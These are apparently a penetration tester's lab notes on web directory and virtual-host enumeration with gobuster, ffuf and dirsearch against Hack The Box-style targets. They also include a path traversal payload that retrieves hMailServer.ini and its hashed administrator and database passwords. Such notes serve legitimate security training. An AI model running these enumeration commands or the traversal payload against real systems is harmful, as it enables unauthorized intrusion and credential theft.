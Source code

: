 # Directory Enum and Attacks

## Tools for Web Directory Enum

### Tool 1 : gobuster

```bash
gobuster dir -u http[:]//cozyhosting.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 25
```

```bash
gobuster dir -u http[:]//10.10.165.20/45kra24zxs28v3yd -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 25

```


#### Use `-k` to ignore TLS validation

```bash
gobuster dir -u https[:]//nagios.monitored.htb/nagiosxi/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -k
```


#### VHOST enumeration

```bash
gobuster vhost -u devvortex.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain
```

**NOTE:** `--append-domain` is crucial to use when the wordlist contains just the subdomains.

> While enumerating in VHOST mode, **gobuster provides only one filtering option**, i.e. `--exclude-length`, which excludes the responses of the specified response size(s) from the output. Hence, it would be useful to **use the tool `ffuf` in cases where you want many filtering** (as well as matching) **options**.

### Tool 2 : ffuf

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http[:]//<REDACTED>.htb -H "Host: FUZZ.<REDACTED>.htb"
```

> **IMPORTANT TIP :** Note the specification of the keyword `FUZZ` after the wordlist's path and `:`.

If you get **multiple false positives** as shown below, identify a filtering or matching pattern to eliminate the issue.

```
ns3                     [Status: 302, Size: 279, Words: 18, Lines: 10, Duration: 89ms]
mx                      [Status: 302, Size: 278, Words: 18, Lines: 10, Duration: 89ms]
imap                    [Status: 302, Size: 280, Words: 18, Lines: 10, Duration: 89ms]
pop3                    [Status: 302, Size: 280, Words: 18, Lines: 10, Duration: 89ms]
test                    [Status: 302, Size: 280, Words: 18, Lines: 10, Duration: 89ms]
localhost               [Status: 302, Size: 285, Words: 18, Lines: 10, Duration: 92ms]
dns2                    [Status: 302, Size: 280, Words: 18, Lines: 10, Duration: 97ms]
cpanel                  [Status: 302, Size: 282, Words: 18, Lines: 10, Duration: 97ms]
ns                      [Status: 302, Size: 278, Words: 18, Lines: 10, Duration: 97ms]
vpn                     [Status: 302, Size: 279, Words: 18, Lines: 10, Duration: 97ms]
www2                    [Status: 302, Size: 280, Words: 18, Lines: 10, Duration: 97ms]
pop                     [Status: 302, Size: 279, Words: 18, Lines: 10, Duration: 98ms]
```

We could use `-fw 18` in the above scenario to filter out responses that have 18 words in them.

<br />

### Tool 3 : dirsearch

```bash
dirsearch -u https[:]//bizness.htb -e*
```

`-e*` checks for all common file extensions.


## Path Traversal Attack

### Technique 1

> The target machine is composed of
> - A **Microsoft IIS 10.0** server
> - `PHP` backend
> - A **hMailServer**

The default working directory for an IIS server usually is `C:\inetpub\wwwroot`.

The current GET request is `GET /download.php?file=random.txt HTTP/1.1`

The file `random.txt` might be in the server's root directory or within a sub-directory (which is the case here).

Since the target runs **hMailServer**, we should attempt to retrieve the file `hMailServer.ini` (an INI file stores important configuration settings).

**Payload:**

`GET /download.php?file=../../../Program+Files+(x86)/hMailServer/Bin/hMailServer.ini HTTP/1.1`

```bash
#O/p (HTTP Response Body)

[Directories]
ProgramFolder=C:\Program Files (x86)\hMailServer
DatabaseFolder=C:\Program Files (x86)\hMailServer\Database
DataFolder=C:\Program Files (x86)\hMailServer\Data
LogFolder=C:\Program Files (x86)\hMailServer\Logs
TempFolder=C:\Program Files (x86)\hMailServer\Temp
EventFolder=C:\Program Files (x86)\hMailServer\Events
[GUILanguages]
ValidLanguages=english,swedish
[Security]
AdministratorPassword=<A-MD5-HASH>
[Database]
Type=MSSQLCE
Username=
Password=<A-MD5-HASH>
PasswordEncryption=1
Port=0
Server=
Database=hMailServer
Internal=1
```

